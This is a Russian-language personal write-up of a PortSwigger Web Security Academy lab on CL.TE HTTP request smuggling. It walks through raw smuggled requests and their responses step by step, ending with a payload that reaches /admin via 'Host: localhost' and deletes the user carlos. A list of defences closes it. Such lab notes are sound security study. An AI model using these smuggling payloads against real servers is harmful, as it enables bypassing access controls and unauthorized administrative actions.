


лаба
https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
#### Использование контрабанды HTTP-запросов для обхода интерфейсных средств контроля безопасности
Панель администратора находится на `/admin`

задание:
отправьте запрос на внутренний сервер, который получит доступ к панели администратора и удалит пользователя `carlos`

--------
вот ориг запрос

```http
GET / HTTP/2
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Cookie: session=mzqJ2j0MLupfqLEceqHSExO6l64Ymaeg
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

----
 меняю протокол на  HTTP/1.1 и запрос также работает, отлично

далее убираю куки все - чтобы не мельтишили тут
меняю метод на POST
выключаю апдейт CL
добавляю
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked


---


-----
сырой запрос выходит
```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked

1
```

---

теперь нужно сделать два базовых запроса для определения базовых видов уязвимостей

классический запрос тест
```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

16
abc
x

```
ответ 500 Server Error: Communication timed out
ошибка от сервера -  не от фронта
но если здесь сделать Content-length: 65 - то ответ 400 "error":"Read timeout"
###### значит фронт слушается CL


классический запрос тест
```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
ответ 200
а повторный запрос сразу 404


схема - шпаргалка (не 100 проц точная ..)


---------

если делать так 
```http
POST /admin HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
то идет блокировка сразу 403 "Path /admin is blocked"

значит нужно контробандой протащить запрос `POST /admin HTTP/1.1`

--------


```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 7
Transfer-Encoding: chunked

110

POST /admin HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-length: 100

0


```
ответ
```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```

-----


немного поколдовал
```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 121
Transfer-Encoding: chunked

6e

POST /admin HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-length: 100

0


```
ответ 200
повторный ответ тоже просто 200

------
осталось понять, заставить его вернуть мне админку 
(но по сути - должен админ в эту же сек заходить вроде как, чтобы сработало )


внес изменения
фронт слушается CL и 115 - это его общее число символов в следующем запросе
а бек слушается чанки только и получает все 115 символов
но первый символ 0 - поэтому на нем бек и обрезает запрос
а все что поле 0 идет в новый запрос! (то есть висит в буфере на прокси сервере этом - чи ждет когда прийдет еще запрос чтобы дополниться за счет Content-length: 200 и вернет ответ мне)

запрос

```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 115
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-length: 200


```
ответ    Admin interface only available to local users
```http
HTTP/1.1 401 Unauthorized
Content-Type: text/html; charset=utf-8
Set-Cookie: session=EJSeKqlmGK3rHtOJgtI4HbrbeqNmIuJp; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 2780

<!DOCTYPE html>
<html>
...
```

```html
                   </header>
                    Admin interface only available to local users
                </div>
            </section>
```
и как я блин должен стать локальным юезером? 


первый запрос возвращает 200
повторный запрос возвращает уже 401 - то есть я перехватываю как-бы админку.. 
но мне еще и кука нужна админская то!

может та кука из ответа и есть админская кука? - проверю сейчас!
проверил - толку нет - так как для обычных запросов /admin  - все блокируется

-----

епта! локально - значит localhost !

запрос
```http
POST / HTTP/1.1
Host: 0a0c00ec03383a78b20430f800890088.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 66
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-length: 150


```
повторный ответ получил админку
```html
                       <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
```


тперь просто подставлю путь  /admin/delete?username=carlos
и вуаля! карлос удален! ответ 302!



----------

### вывод

уязвимость CL.TE подтверждена и использована для обхода фронта

фронт не понимает чанки и блокирует /admin

бэк понимает чанки и доверяет внутреннему запросу после 0 (часть после 0 висит в буфере)

я протащил GET /admin с заголовком Host: localhost и получил доступ к панели

затем изменил путь на /admin/delete?username=carlos и удалил пользователя

и еще получилось подрубиться к локальной сети через внешнюю (сервер доверяет Host: localhost)
### защита

нужно чтобы фронт и бэк одинаково определяли границы запросов

лучше использовать http/2 где нет путаницы с длиной

если http/1.1 то запрещать запросы с противоречивыми заголовками content-length и transfer-encoding

также валить соединения где возникает рассогласование

и обязательно проверять заголовок host на бэкенде даже для запросов которые пришли через прокси

и регулярно обновлять серверное по